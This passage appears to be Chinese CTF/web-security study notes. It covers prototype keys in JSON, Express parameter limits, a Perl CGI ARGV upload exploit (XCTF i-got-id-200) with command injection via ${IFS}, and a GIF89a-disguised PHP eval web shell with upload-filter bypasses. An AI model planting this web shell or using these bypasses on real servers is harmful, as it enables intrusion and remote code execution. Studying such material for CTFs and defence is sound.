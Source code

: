 这是因为，JSON 解析的情况下，`__proto__` 会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历 o2 的时候会存在这个键。

## Node.js

### parameterLimit 限长

express的parameterLimit默认为1000, 如果过长可能引发安全问题, 导致服务器过载

## Misc

### 文件上传绕过

#### perl (.pl) 漏洞

原理: perl文件遇到上传可配合ARGV文件使用造成任意文件读取或者任意命令执行(管道符)
(XCTF i-got-id-200)

我们猜测后台逻辑大概是这样的。

```perl
use strict; use warnings; use CGI;

my $cgi= CGI->new; if ( $cgi->upload( 'file' ) ) { my $file= $cgi->param(
'file' ); while ( <$file> ) { print "$_"; } } 
```
3.那么，这里就存在一个可以利用的地方，param()函数会返回 一个列表的文件 但是 只有第一个文件会被放入到下面的file变量中。如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。

4.在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，可以实现读取任意文件。

5.那么到了这里，可以有两种方法处理：第一种，直接猜出flag文件/flag；

6.第二种，通过管道的方式，执行任意命令，然后将其输出结果用管道传输到读入流中，这样就可以保证获取到flag文件的位置了。这里用到了${IFS}来作命令分割，原理是会将结果变成bash -c "ls/"的等价形式。最后得到flagFLAG{p3rl_6_iz_EVEN_BETTER!!1}

> 注: 绕过 '/' 的方式: 利用printf (bash 命令)

> 在你需要用 / 的地方, 换用 $(printf${IFS}'\057') 或者 $(printf${IFS}"\057")

#### 一句话木马

常用一句话木马:
```php
GIF89a
<?=@eval($_POST['shell']);?>
```

你需要知道:
`<?= expr ?>` ＝ `<?php echo expr; ?>`

1. 抓包, 把 `Content-Type:` 改为 `image/jpg`
2.  改后缀, 改文件头, 例如 jpg 的文件头 :`GIF89a`
3.  windows 空格绕过: 原理是windows系统不允许最后一个字符是空格, 会自动去掉

#### user.ini 绕过
